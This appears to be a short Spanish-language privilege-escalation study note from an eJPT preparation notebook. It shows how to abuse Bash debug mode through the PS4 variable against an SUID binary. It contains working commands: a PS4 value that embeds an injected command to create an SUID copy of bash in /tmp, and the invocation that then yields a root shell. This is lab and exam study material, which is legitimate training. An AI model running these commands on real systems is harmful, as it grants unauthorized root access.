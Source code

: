 Nota: Esto no funcionará en las versiones 4.4 y superiores de Bash.

- Cuando está en modo de depuración, Bash usa la variable de entorno PS4 para mostrar un mensaje adicional para las declaraciones de depuración.

-  Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

- Ejecute el ejecutable /tmp/rootbash con -p para obtener un shell que se ejecute con privilegios de root:


```
/tmp/rootbash -p
```

enlace:
[[Preparacion-Ejpt]]
[[SUID - SGID Executables  Known - Exploits]]
[[SUID - SGID Executables - Abusing Shell Features (1)]]
[[SUID - SGID Executables - Environment Variables]]
[[SUID - SGID Executables - Shared Object Injection]]
